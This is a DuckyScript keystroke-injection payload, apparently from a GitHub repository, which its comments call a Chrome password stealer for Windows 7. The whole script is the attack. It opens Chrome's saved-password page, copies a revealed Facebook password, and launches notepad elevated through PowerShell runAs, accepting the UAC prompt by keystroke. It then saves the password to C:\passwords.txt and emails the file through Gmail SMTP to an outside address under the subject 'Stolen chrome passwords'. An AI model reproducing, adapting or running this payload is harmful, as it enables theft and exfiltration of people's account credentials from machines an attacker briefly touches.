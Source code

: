 # kamikazehacks-
101hacks
#REM Author: Kamikazedeunknown
REM Ducky chrome password stealer: 1.0
REM Target: Windows 7
REM Description: Opens chrome, navigates to chrome settings, navigates to saved passwords, searches for facebook, shows password, copys password
REM closes chrome, Opens notepad with bypass uac so it can save to C:\ drive and pastes in password 
REM saves to C:\passwords.txt folder, closes notepad
REM sends files via gmail to account.
DELAY 2000
REM -------------open chrome
GUI r
DELAY 1000
STRING chrome
DELAY 1000
ENTER
DELAY 4000
REM -------------copy plaintext password
STRING chrome://settings/passwords
ENTER
DELAY 2000
STRING facebook
DELAY 500
TAB
DELAY 500
DOWN
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
ENTER
DELAY 500
ALT D
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
CTRL C
DELAY 500
ALT F4
DELAY 500
REM -------------save file to music folder as passwords.txt
GUI R
DELAY 500
STRING powershell start-process notepad.exe -Verb runAs
DELAY 500 
ENTER
DELAY 2000
ALT y
DELAY 1000
CTRL V
DELAY 500
ALT f
DELAY 500
STRING s
DELAY 500
STRING passwords.txt
DELAY 500
TAB
TAB
TAB
TAB
TAB
TAB
TAB
TAB
TAB
STRING c
DELAY 1000
STRING l
DELAY 500
ENTER
DELAY 500
ALT S
DELAY 1000
ALT F4
DELAY 500
REM -------------email log via gmail
GUI r
DELAY 500
STRING powershell
ENTER
DELAY 1000
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('youremail@gmail.com', 'password');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'youremail@gmail.com'
ENTER
STRING $ReportEmail.To.Add('kamikazie137@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'Stolen chrome passwords'
ENTER
STRING $ReportEmail.Body = 'Attached is your list of passwords.' 
ENTER
STRING $ReportEmail.Attachments.Add('c:\passwords.txt')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 3000
STRING exit
ENTER
